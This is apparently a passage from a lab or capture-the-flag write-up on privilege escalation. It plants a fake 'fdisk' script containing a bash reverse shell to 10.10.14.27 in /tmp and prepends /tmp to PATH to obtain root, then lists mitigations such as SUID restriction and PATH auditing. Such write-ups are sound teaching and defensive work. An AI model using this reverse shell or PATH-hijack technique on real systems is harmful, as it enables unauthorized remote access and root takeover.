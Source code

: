 ```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.27/1234 0>&1'
```

I created a new `fdisk` binary with above content and put it inside of `tmp` directory.

Then appended `/tmp` directory to `PATH` and exported it.

```bash
export PATH=/tmp:$PATH
```

Now let’s see `PATH` and verify if it is changed:

![image.png](image%2013.png)

As you see they are all changed.

Let’s now execute the script and wait for connection.

![image.png](image%2014.png)

Now we are root!

## Mitigation

- Sanitize and use **parameterized queries** to prevent SQL injection.
- Implement **strict server-side file validation**, including MIME type checks, file extension filtering, and content scanning.
- Avoid storing **plaintext credentials** in databases; use strong, salted password hashing mechanisms.
- Regularly audit and sanitize **environment variables and PATH** used by privileged binaries.
- Restrict and monitor the use of **SUID binaries**; remove the SUID bit from non-essential executables.
- Apply **principle of least privilege** and monitor for suspicious privilege escalation attempts.
